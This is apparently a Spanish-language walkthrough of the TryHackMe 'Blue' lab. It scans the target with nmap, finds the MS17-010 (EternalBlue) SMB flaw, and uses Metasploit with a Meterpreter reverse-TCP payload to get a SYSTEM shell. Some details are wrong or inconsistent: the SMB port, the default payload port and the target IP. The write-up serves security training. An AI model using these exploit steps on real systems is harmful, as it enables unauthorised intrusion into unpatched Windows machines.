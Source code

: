 ```yaml
---
title : Blue
published : True
---
```

---
<p>Maquina : Blue</p>
<p>Url : <a href="https://tryhackme.com/room/blue">Blue</a></p>
<p></p>
---
<p>Empezaremos con el reconocimiento de la maquina</p>
> ping -c 1 10.10.157.254
<p></p>
<img src="/imgs/blue/blue0.jpg"/>
<p>Vemos que en la imagen el ttl es de 127 lo que inidica que es una maquina windows, ahora vermos que puertos estan abiertos.</p>
> nmap --min-rate 5000 -Pn -sS --open 10.10.157.254 -o allports
<p></p>
<img src="/imgs/blue/blue1.jpg"/>
<p>tiene el puerto smb abierto <font color="gold">455</font> veremos si tiene vulnerabilidades, con nmap.</p>
> nmap --script smb-vuln* 10.10.127.254
<p></p>
<img src="/imgs/blue/blue2.jpg"/>
<p>Al paracer es vulnerable a <font color="yellow">( ms17-010 EternalBlue )</font>, ahora explotemoslo con <font color="gold">msfconsole</font>.</p>
<p>Usamos el exploit EternalBlue </p>
> use exploit/windows/smb/ms17_010_eternalblue
<p></p>
<img src="/imgs/blue/blue3.jpg"/>
<p>Ahora indicamos el payload que queremos ejecutar una vez ganado acceso a la maquina.</p>
> set payload windows/meterpreter/reverse_tcp
<p></p>
<img src="/imgs/blue/blue4.jpg"/>
<p>Indicamos la ip de la maquina victima con <font color="gold">set rhosts</font>.</p>
<img src="/imgs/blue/blue5.jpg"/>
<p>Ahora indicamos nuestra ip tun0 de nuestra vpn de tryHackMe.</p>
<img src="/imgs/blue/blue6.jpg"/>
<p>Seguidamente cambiamos el puerto 444 que viene por defecto para el payload, en caso de que haya un firewall indicado para cerrar conecciones
por el puerto 444.</p>
<img src="/imgs/blue/blue7.jpg"/>
<p>Seguidamente ejecutamos <font color="red">exploit</font> para iniciar el ataque.</p>
<img src="/imgs/blue/blue8.jpg"/>
<p>Y listo si ejecutas el comando shell, y pones whoami seras autority system</p>
<p>Ok maquina vulnerada</p>
3
